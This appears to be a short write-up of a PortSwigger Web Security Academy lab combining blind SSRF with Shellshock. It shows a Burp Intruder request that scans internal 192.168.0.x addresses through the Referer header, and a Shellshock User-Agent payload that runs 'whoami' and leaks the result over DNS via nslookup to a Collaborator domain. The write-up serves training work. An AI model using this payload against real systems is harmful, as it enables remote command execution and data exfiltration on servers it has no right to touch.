

# anylize
in request in burp when you click to any product and send to intruder
```
GET /product?productId=1 HTTP/2
Host: 0a42007b03bb73ef846505820016006b.web-security-academy.net
Cookie: session=QlkTZEaMIOsRYO9GPlUzxFcvkYW8DvPl
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).{DOMAIN}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://192.168.0.§1§:8080
Accept-Encoding: gzip, deflate, br
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
```
in user agent
change this
```
() { :; }; /usr/bin/nslookup $(whoami).YOURDOMAINBURPCOLABOLATOR
```

# For asnwer
click poll in burp colabolator you will see the host

# img
